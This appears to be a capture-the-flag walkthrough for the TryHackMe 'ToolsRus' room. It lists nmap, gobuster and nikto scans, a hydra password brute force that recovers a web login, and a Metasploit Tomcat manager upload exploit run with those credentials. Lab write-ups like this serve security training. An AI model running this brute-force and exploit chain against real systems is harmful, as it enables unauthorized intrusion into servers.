 # ToolsRus

**Room Link:** [https://tryhackme.com/room/toolsrus](https://tryhackme.com/room/toolsrus)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l bob -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top1000.txt $VICTIM http-get /protected
```

<figure><img src="../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nikto -id bob:bubbles -h http://$VICTIM:80/manager/html
```

<figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nikto -id bob:bubbles -h http://$VICTIM:1234/manager/html 
```

<figure><img src="../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfconsole 
```

**Msfconsole**

```
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.10.98.194
set RPORT 1234
set HttpUsername bob
set HttpPassword bubbles
run
```

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

































